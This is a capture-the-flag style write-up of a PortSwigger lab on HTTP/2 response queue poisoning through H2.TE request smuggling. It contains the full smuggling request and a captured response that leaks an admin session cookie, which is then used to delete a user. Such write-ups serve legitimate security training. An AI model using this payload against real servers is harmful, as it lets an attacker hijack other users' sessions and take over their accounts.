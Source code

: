 # [Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

## response queue poisoning

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

The correct response from the back-end is then left without a matching request. This cycle is repeated every time a new request is forwarded down the same connection to the back-end.

![stealing-other-users-responses.jpg](./../img/stealing-other-users-responses.jpg)

## Detected H2.TE

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension (HTTP 2 probe): detected `HTTP/2 TE desync v10a h2path`

## Attack

repeatedly send this request until a 302 response is captured:

```http
POST / HTTP/2^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Transfer-Encoding: chunked^M$
^M$
0^M$
^M$
GET /notfoundforsure HTTP/1.1^M$
Host: 0a6900e903253ff9c190362c00ce00a4.web-security-academy.net^M$
^M$

______________________________
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=JLK8H0shXHXoB6ozjWIyBtkHEqFlIoCW; Secure; HttpOnly; SameSite=None
Content-Length: 0
```

use captured session to access admin account, delete carlos account => solved
